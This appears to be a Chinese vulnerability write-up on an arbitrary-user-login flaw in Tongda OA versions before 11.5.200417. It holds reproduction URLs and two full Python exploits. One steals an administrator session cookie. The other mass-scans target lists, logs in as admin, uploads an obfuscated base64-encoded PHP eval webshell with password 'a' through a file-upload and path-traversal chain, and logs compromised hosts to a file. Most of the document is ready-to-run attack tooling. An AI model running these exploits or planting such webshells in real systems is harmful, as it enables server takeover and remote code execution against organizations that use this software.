




通达OA \< 11.5.200417 任意用户登录漏洞
======================================

一、漏洞简介
------------

未经授权的攻击者可以通过构造进行任意用户登录（包括admin），登录之后可进一步上传恶意文件控制网站服务器。

二、漏洞影响
------------

通达OA \< 11.5.200417版本

三、复现过程
------------

### 第一种利用方法

> 第一步：拿到uid

    http://www.0-sec.org/general/login_code.php

> 第二步：拿到cookie

    http://www.0-sec.org/logincheck_code.php

> 第三步：

    http://www.0-sec.org/general/index.php?is_modify_pwd=1

### 第二种利用方法

> 第一步：

    http://www.0-sec.org/ispirit/login_code.php

> 第二步：

    http://www.0-sec.org/general/login_code_scan.php

> 第三步：

    http://www.0-sec.org/ispirit/login_code_check.php?codeuid={EED2B9FE-F865-DCF1-0E8D-3326AE163F6D}

> 第四步：

### 获取cookie poc

    import requests
    import argparse
    import random
    import warnings
    import sys
    import re

    class Tond_da_poc():
        def __init__(self,url):
            self.url = url+'/'
            self.user_agent =USER_AGENTS = [
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
        "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
        "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)",
        "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)",
        "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.2; .NET CLR 1.1.4322; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 3.0.04506.30)",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)",
        "Mozilla/5.0 (X11; U; Linux; en-US) AppleWebKit/527+ (KHTML, like Gecko, Safari/419.3) Arora/0.6",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.2pre) Gecko/20070215 K-Ninja/2.1.1",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9) Gecko/20080705 Firefox/3.0 Kapiko/3.0",
        "Mozilla/5.0 (X11; Linux i686; U;) Gecko/20070322 Kazehakase/0.4.5",
        "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko Fedora/1.9.0.8-1.fc10 Kazehakase/0.5.6",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/535.20 (KHTML, like Gecko) Chrome/19.0.1036.7 Safari/535.20",
        "Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.11 TaoBrowser/2.0 Safari/536.11",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.71 Safari/537.1 LBBROWSER",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; LBBROWSER)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E; LBBROWSER)",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.84 Safari/535.11 LBBROWSER",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; SV1; QQDownload 732; .NET4.0C; .NET4.0E; 360SE)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
        "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
        "Mozilla/5.0 (iPad; U; CPU OS 4_2_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5",
        "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre",
        "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:16.0) Gecko/20100101 Firefox/16.0",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11",
        "Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10"
    ]
            self.payload_url_uid = '/general/login_code.php'
            self.payload_url_cookie = '/logincheck_code.php'
            self.headers= {'headers':random.choice(self.user_agent)}
            self.vulhub = False

        def get_tongda_uid(self):
            url =self.url+self.payload_url_uid

            r = requests.get(url=url,headers=self.headers,verify=False).text
            print('[*] Checking current URL UID' )
            uid_txt =r.split('code_uid')
            uid_compile = re.compile(r'"({.*})"')
            try:
                get_uid = re.findall(uid_compile,r)
                if len(get_uid) > 0:
                    print('【+】 Get current uid successfully',get_uid[0])
                    self.vulhub = True
                    return get_uid
                else:
                    print('[-] Failed to get current UID')

            except Exception as error:
                pass

        def get_tongda_cookies(self):
            url =self.url +self.payload_url_cookie
            data = {'CODEUID':self.get_tongda_uid(),'UID':1}
            r =requests.post(url,data=data,headers =self.headers,verify=False)
            try:
                if r.headers['Set-Cookie'] != None and self.vulhub != False:
                   tongda_cookie =r.headers['Set-Cookie']
                   print('【+】 Get session of current URL successfully',tongda_cookie)

                else:
                    print('[-] Failed to get session of current URL')

            except Exception as error:
                pass

        def run(self):
            self.get_tongda_cookies()

    if __name__ == '__main__':

        # Author  : 小泫

        warnings.simplefilter("ignore")
        if (len(sys.argv)) < 2:
            print('useage : python' +str(sys.argv[0]) + ' -h')
        else:
            parser =argparse.ArgumentParser()
            parser.description ='通达OA < 11.5版本 任意用户登录'
            parser.add_argument('-u',help="待检测url -> example http://127.0.0.1",type=str,dest='check_url')
            args =parser.parse_args()

            aa = Tond_da_poc(args.check_url)
            aa.run()

### getshell poc

> url.txt： 测试url，支持批量
>
> vuln.txt：上传成功的webshell
>
> 上传的默认一句话shell密码a

    # Usage: python tongda.py
    # Default webshell password:a

    import requests
    import threadpool
    import urllib3
    import json
    import base64

    urllib3.disable_warnings()
    header = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Referer": "https://google.com",
    }
    proxy = {       # debug
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080"
    }

    def wirte_targets(vurl, filename):
        with open(filename, "a+") as f:
            f.write(vurl + "\n")
            return vurl

    def get_cookie(url):
        checkHeader = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded",
            "Referer": "https://google.com",
        }
        try:
            req1 = requests.get(url + "/ispirit/login_code.php", headers=checkHeader, verify=False, timeout=25)
            if req1.status_code == 200 and "codeuid" in req1.text: 
                codeUid = json.loads(req1.text)["codeuid"]
            else:
                req1 = requests.get(url + "/general/login_code.php", headers=checkHeader, verify=False, timeout=25)
                status = req1.text.find('{"status":1')
                if req1.status_code == 200 and status != -1:
                    codeUid = json.loads(req1.text[status:])["code_uid"]
                else:
                    return "123"
            req2 = requests.post(url+ "/general/login_code_scan.php", data={"codeuid": codeUid, "uid": int(1), "source": "pc", "type": "confirm", "username": "admin"}, headers=checkHeader, verify=False, timeout=25)
            if req2.status_code == 200 and json.loads(req2.text)["status"] == "1":
                req3 = requests.get(url + "/ispirit/login_code_check.php?codeuid=" + codeUid, headers=checkHeader, verify=False, timeout=25)
                if req3.status_code == 200 and '"uid":"1"' in req3.text:
                    cookie = req3.headers["Set-Cookie"]
                    return cookie
        except:
            pass
        return "123"
        

    def exp(u):
        uploadHeader = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
            "Content-Type": "multipart/form-data; boundary=----fuck123",
            "Referer": "https://google.com",
        }
        shellName = "templates.php"
        tongdaDir = "/"
        uploadFlag = "upload jpg shell"
        shellFlag = "sucess !!"
        webPath = tongdaDir + shellName
        printFlag = ""

        cookie = get_cookie(u)
        if cookie != "123":
            printFlag = "[Login]：" + u + "/general/index.php\t" + cookie + "\n"
        header["Cookie"] = cookie

        # password:a
        # POST method
        # base64.decode: <?php $a="~+d()"^"!{+{}";$b=${$a}["a"];eval("".$b);echo "sucess !!";?>
        b64Shell = "PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJhIl07ZXZhbCgiIi4kYik7ZWNobyAi" + base64.b64encode(shellFlag.encode("utf-8")).decode("utf-8") + "Ijs/Pg=="
        
        uploadData = "------fuck123\r\nContent-Disposition: form-data; name=\"UPLOAD_MODE\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"P\"\r\n\r\n" + cookie[cookie.find("=")+1:cookie.find(";")] + "\r\n------fuck123\r\nContent-Disposition: form-data; name=\"DEST_UID\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"ATTACHMENT\"; filename=\"jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<?php\r\nfile_put_contents($_SERVER[\"DOCUMENT_ROOT\"].\"/" + webPath + "\", base64_decode('" + b64Shell + "'));\r\necho \"" + uploadFlag + "\";\r\n?>\r\n------fuck123--"
        try:
            uploadHeader["Cookie"] = cookie
            req1 = requests.post(u + "/ispirit/im/upload.php", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
            text = req1.text
            if req1.status_code == 200 and "[vm]" in text:
                uploadFilePath = text[text.find("@")+1:text.find("|")].replace("_", "/")
                includeData = 'json={"url":"/general/../../attach/im/' + uploadFilePath + '.jpg"}'
                req2 = requests.post(u + "/mac/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
                if req2.status_code == 404 or uploadFlag not in req2.text:
                    req2 = requests.post(u + "/ispirit/interface/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
                if req2.status_code == 200 and uploadFlag in req2.text:
                    shellPath = u + webPath
                    req3 = requests.get(shellPath, headers=header, verify=False, timeout=25)
                    if shellFlag in req3.text:
                        printFlag = "[Getshell]：" + shellPath + "\t" + cookie + "\n"
                        wirte_targets(shellPath, "vuln.txt")
        except:
            pass
        print(printFlag, end="")

    def multithreading(funcname, filename="url.txt", pools=5):
        works = []
        with open(filename, "r") as f:
            for i in f:
                func_params = [i.rstrip("\n")]
                works.append((func_params, None))
        pool = threadpool.ThreadPool(pools)
        reqs = threadpool.makeRequests(funcname, works)
        [pool.putRequest(req) for req in reqs]
        pool.wait()

    if __name__ == "__main__":
        multithreading(exp, "url.txt", 8)      # Default threads 8

    # Usage: python tongda.py
    # Default webshell password:a

参考链接
--------

> https://www.yuque.com/xiaoxuan-3vnio/nucw6f/wbqg8f
>
> https://github.com/clm123321/tongda\_oa\_rce/blob/master/tongda.py
